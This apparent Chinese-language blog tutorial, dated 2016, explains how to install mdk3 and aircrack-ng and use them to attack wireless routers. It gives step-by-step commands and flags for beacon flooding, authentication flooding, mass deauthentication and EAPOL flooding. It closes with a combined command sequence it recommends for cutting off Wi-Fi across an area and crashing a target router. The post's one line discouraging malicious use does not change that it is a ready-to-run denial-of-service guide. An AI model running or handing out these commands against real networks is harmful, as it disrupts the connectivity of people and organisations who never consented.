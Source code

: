 ```yaml
---
layout: default
title:  "使用mdk3+aircrack-ng攻击路由器"
date:   2016-08-28 11:47
categories: jekyll update
tags: [Linux,网络]
---
```

>mdk3是一款Linux下的终端网络攻击工具，需要配合强大的aircrack -ng使用  

[mdk3-Github](https://github.com/charlesxsh/mdk3-master)  
[mdk3-Github|LEXUGE's fork](https://github.com/LEXUGE/mdk3-master)  
[aircrack -ng](http://www.aircrack-ng.org/index.html)  

现在mdk3的官网已经关闭了，在Github上还有mdk3 v6的原版改进版，为防止项目被删除，我也fork了一份，供大家备用下载。  
mdk3的攻击过程中是不需要网络连接的，也就是在无网络的状态下攻击，希望大家不要恶意攻击他人，保持好自己的黑客道德。  
教程在Fedora Linux下通过测试  



1. ```iwconfig```  
使用该命令来检查是哪一个接口来支持无线连接的，如我的就是wlp2s0  

2. ```iw dev wlp2s0 scan```  
用这个命令来扫描周围的Wi-Fi信息，SSID为路由器的名称，BSS为路由器的MAC地址**（注意，截至目前，我们不需要安装任何软件）**  

3. ```dnf install aircrack-ng.x86_64```  
现在我们来安装mdk3和aircrack-ng(aircrack-ng可能名称会发生变动，具体请使用```$ dnf search aircrack-ng```搜索软件包)  

4. 进入目录并编译:  
```
cd /mdk3-master
make
sudo make install
```
下载完mdk3并解压完毕后，即可进行编译安装，在```make```时会有gcc的编译警告，忽略即可，不必担心  

5. 验证安装:
```
cd /usr/local/sbin
./mdk3
```
<br>

- 如果正确安装就可以看到mdk3输出的帮助  
- 安装过程到此就完毕了  

现在，我们来介绍如何攻击  ```
su
airmon-ng start {你的接口，在第一步中可以找到}
cd /usr/local/sbin
```
第二条命令时，系统会自动关闭冲突进程，在最后会有监听端口，**注意，接下来的mon0就使用监听端口代替**  

第一种模式：  
beacon flood mode：  
     这个模式可以产生大量死亡SSID来充斥无线客户端的无线列表，从而扰乱无线使用者；我们甚至还可以自定义发送死亡SSID的BSSID和ESSID、加密方式（如wep/wpa2）等。  
详细命令如下：  ```
./mdk3 mon0 b

      -n <ssid>        #自定义ESSID
      -f <filename>            #读取ESSID列表文件
      -v <filename>           #自定义ESSID和BSSID对应列表文件
      -d         #自定义为Ad-Hoc模式
      -w         #自定义为wep模式
      -g           #54Mbit模式
      -t            # WPA TKIP encryption
      -a           #WPA AES encryption
      -m          #读取数据库的mac地址
       -c <chan>                   #自定义信道
       -s <pps>                #发包速率
```

第二种模式：  
Authentication DoS：  
这是一种验证请求攻击模式：在这个模式里，软件自动模拟随机产生的mac向目标AP发起大量验证请求，可以导致AP忙于处理过多的请求而停止对正常连接客户端的响应；这个模式常见的使用是在reaver穷据路由PIN码，当遇到AP被“pin死”时，可以用这个模式来直接让AP停止正常响应，迫使AP主人重启路由！  ```
./mdk3 mon0 a
      -a <ap_mac>              #测试指定BSS
      -m              #使用有效数据库中的客户端mac地址
      -c          #对应 -a ，不检查是否测试成功
      -i  <ap_mac>           #对指定BSS进行智能攻击
      -s <pps>               #速率，默认50
```

第三种模式：  
Deauthentication/Disassociation Amok：  
强制解除验证解除连接！在这个模式下，软件会向周围所有可见AP发起循环攻击......可以造成一定范围内的无线网络瘫痪（当然有白名单，黑名单模式），直到手动停止攻击！  ```
mdk3 mon0 d
      -w <filename>             #白名单mac地址列表文件
      -b <filename>              #黑名单mac地址列表文件
      -s <pps>                        #速率，这个模式下默认无限制
      -c [chan,chan,chan,...]                  #信道，可以多填，如 2,4,5,1
```

第四种模式：  
802.1X test:  ```
mdk3 mon0 x  
      0 - EAPOL Start packet flooding   #EAPOL格式的报文洪水攻击

            -n <ssid>               
            -t <bssid>        #目标客户端的mac地址               

            -w <WPA type>
               Set WPA type (1: WPA, 2: WPA2/RSN; default: WPA)
            -u <unicast cipher>
               Set unicast cipher type (1: TKIP, 2: CCMP; default: TKIP)
            -m <multicast cipher>
               Set multicast cipher type (1: TKIP, 2: CCMP; default: TKIP)
            -s <pps>      #速率，默认400               
      1 - EAPOL Logoff test       #注销认证攻击
            -t <bssid>        #目标客户端的mac地址             
            -c <bssid>         #目标ap的合法客户端mac               
            -s <pps>         #速率，默认400               
```

最后，建议这样攻击：  
第一种和第三种同时使用会造成大面积间歇性断网，第二种可以配合第四种进行攻击，会导致路由器死亡  
分别是  
```
./mdk3 mon0 b
./mdk3 mon0 d -s 120
./mdk3 mon0 a -a {你要攻击的路由器MAC(BSS)}
./mdk3 mon0 x 1 -c {客户端MAC(虚拟)} -t {路由器MAC(BSS)}
```

祝你成功！
